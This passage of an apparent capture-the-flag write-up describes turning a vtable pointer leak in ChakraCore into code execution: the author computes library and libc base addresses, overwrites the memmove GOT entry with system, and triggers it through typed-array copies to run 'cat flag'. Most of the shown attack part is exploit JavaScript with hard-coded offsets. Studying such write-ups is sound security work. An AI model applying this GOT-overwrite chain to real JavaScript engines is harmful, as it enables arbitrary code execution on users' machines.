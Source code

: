 The `vtable` pointer points to an address inside libChakraCore.so.
That is we can compute the base address of the library leaking the vtable pointer and reading from that address.

One common technique to gain code execution from arbitrary write is to write the address of `system` or `one_gadget` into a got entry of the binary

From the base address of libChakraCore.so we can compute the address of the got section and from there we can leak the base address of libc

Since the got of libChakraCore.so is writable I tried with various offsets, but without success.

So after a couple of failed tries, I searched for how to trigger calls to standard library from a javascript context and found this writeup

[https://bruce30262.github.io/Chakrazy-exploiting-type-confusion-bug-in-ChakraCore/](https://bruce30262.github.io/Chakrazy-exploiting-type-confusion-bug-in-ChakraCore/)

Looked for `got` in the writeup and found that you can trigger `memmove` with `some_array.set(other_array)`

The nice thing of `memmove` is that the first argument is a string and is the destination buffer of the memory move, so we can control the first argument of system
So I overwrote the corresponding entry in got with the address of system.

```javascript
    // compute some useful offsets, just try them all until it works
    let gdb_base = 0xc3a52000; // libChakraCore.so base addr in gdb

    let vptr_off = 0xc48566e0 - gdb_base;
    let chackra_base_lo = vtable_lo - vptr_off;

    let malloc_got = 0xc48a56e0 - gdb_base;
    // write targets
    let free_got = 0xc48a5128 - gdb_base
    let memmove = free_got - 0x128 + 0x108
    let memset = free_got - 0x128 + 0x248

    let one_gadget = 0x4f440; // actually it's system because the one gadgets that I tried didn't work

    print(hex(chackra_base_lo + vtable_hi * BASE));
    print('malloc and free')
    // get libc offsets to find libc version
    print(hex(read64(chackra_base_lo + malloc_got, vtable_hi)));
    print(hex(read64(chackra_base_lo + free_got, vtable_hi)));

    // read got to get libc base addr
    let libc = read3232(chackra_base_lo + free_got, vtable_hi);
    let free_off = 0x8dbce950 - 0x8db37000 // lost the gdb session so new base addr
    let libc_low = libc[0] - free_off;
    let libc_high = libc[1];
    print(hex(libc_low + libc_high * BASE))
    print('Writing on got');

    write64(chackra_base_lo + memmove, vtable_hi, libc_low + one_gadget, libc_high);
    // write64(chackra_base_lo + memset, vtable_hi, libc_low + one_gadget, libc_high);
    print('there');

    // just a random size and name, you can put different values if you want
    let ab = new Uint8Array(0x1020);
    let ef = new Uint8Array(0x1020);
    let cmd = 'cat flag'
    for (let i = 0; i < 1000; i++) {
        ab[i] = 100 - i;
        ef[i] = cmd.charCodeAt(i);
    }
```